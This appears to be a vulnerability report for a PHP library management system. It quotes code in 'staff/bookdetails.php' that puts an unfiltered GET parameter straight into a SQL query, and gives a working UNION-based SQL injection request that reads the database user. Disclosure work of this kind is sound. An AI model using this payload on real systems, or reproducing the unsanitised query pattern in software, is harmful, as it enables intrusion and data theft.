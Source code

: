 ### Vulnerability file address

`staff/bookdetails.php` from line 108

The incoming $x variable is not filtered, there is sql injection

```php
......
......
......
$x=$_GET['id'];
$sql="select * from LMS.book where BookId='$x'";
$result=$conn->query($sql);
$row=$result->fetch_assoc();   
......
......
......
```

### POC

not exists any precondition

```http
GET /staff/bookdetails.php?id=1'+union+select+1,2,3,4,5,6,7,8,9,user()+%23 HTTP/1.1
Host: www.lms.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

### Attack results pictures

![image-20220702210109710](https://xianyu123images.oss-cn-hangzhou.aliyuncs.com/20220703133000.png)

